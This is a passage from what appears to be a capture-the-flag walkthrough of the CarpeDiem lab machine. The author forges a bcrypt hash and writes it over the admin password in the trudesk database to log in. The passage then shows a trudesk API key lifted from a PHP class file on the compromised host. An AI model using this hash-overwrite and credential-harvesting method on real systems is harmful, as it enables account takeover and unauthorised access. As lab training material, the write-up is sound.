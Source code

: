       ]
    }
    

Issue uid 1006 is what I need to continue.

#### Logging into trudesk

I don’t have creds for trudesk, but I have access to the database. I’ll get
the hash for a password I know:

    
    
    oxdf@hacky$ python3
    Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
    [GCC 9.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import bcrypt
    >>> bcrypt.hashpw( b'0xdf0xdf', bcrypt.gensalt(rounds=4))
    b'$2b$04$p4DfSZ3YHjdBgs/9f.qWnOJq7.DEKBfGledDp2zJVfTKdJSFwllPK'
    

I’ll note that one of the users has username admin. I’ll update that account’s
password hash to the newly generated one:

    
    
    > db.accounts.update( {"username" : "admin" }, {$set: {"password": "$2b$04$p4DfSZ3YHjdBgs/9f.qWnOJq7.DEKBfGledDp2zJVfTKdJSFwllPK"} });
    WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
    

With it, I can log in and access the tickets:

![image-20221128172534600](https://0xdfimages.gitlab.io/img/image-20221128172534600.png)

I can access this using the Chisel socks proxy _or_ by adding
`trudesk.carpediem.htb` to my `/etc/hosts` file and then hitting it directly
on port 80.

#### trudesk API

The intended path for the box is to look at the under development trudesk page
in the admin panel. The page itself doesn’t have anything interesting, but
there’s a `Trudesk.php` file in the `classes` folder:

    
    
    www-data@3c371615b7aa:/var/www/html/portal/classes$ ls
    DBConnection.php  Master.php          Trudesk.php  Zone.php
    Login.php         SystemSettings.php  Users.php
    

It has an API token for trudesk:

    
    
    <?php
    class TrudeskConnection{
    
        private $host = 'trudesk.carpediem.htb';
        private $apikey = 'f8691bd2d8d613ec89337b5cd5a98554f8fffcc4';
        private $username = 'svc-portal-tickets';
        private $password = '';
        private $database = '';
        